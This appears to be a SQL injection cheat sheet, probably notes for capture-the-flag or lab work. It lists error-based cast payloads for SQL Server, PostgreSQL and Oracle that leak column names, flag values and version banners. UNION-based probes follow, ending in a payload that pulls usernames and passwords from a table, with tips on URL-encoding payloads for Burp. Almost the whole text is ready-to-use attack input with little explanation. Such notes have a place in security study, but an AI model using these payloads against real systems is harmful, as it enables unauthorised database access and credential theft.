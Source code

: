 ```sql
CAST((
  SELECT name 
  FROM target.sys.columns 
  WHERE object_id = OBJECT_ID('target.dbo.flags')
  ORDER BY name
  OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY
) AS INT)
```

```sql
CAST((
  SELECT TOP 1 flag 
  FROM target.dbo.flags
) AS INT)
```

PostgreSQL 

```sql
cast(version() as integer)
```

Oracle 
```sql
to_char(dbms_xmlgen.getxml('select "'|| (select substr(banner,0,30) from v$version where rownum=1)||'" from sys.dual'))
```

### UNION-Based & Database Detection Notes

#### Purpose
To detect and exploit UNION-based SQL Injection vulnerabilities and identify the backend database (MySQL, SQL Server, Oracle, PostgreSQL).

---

```sql
' order by 1--
```

#### or for burp 
Always URL encode your payload if you paste it into Burp:

    - ' → %27

    - Space → %20

    - -- - → %2D%2D%20-

```sql
%25%27+order+by+4+--
```

```sql
' union select 111, 222, 333, 444---
```

```sql
a' union select 111, username, password, 444 from usser--
```
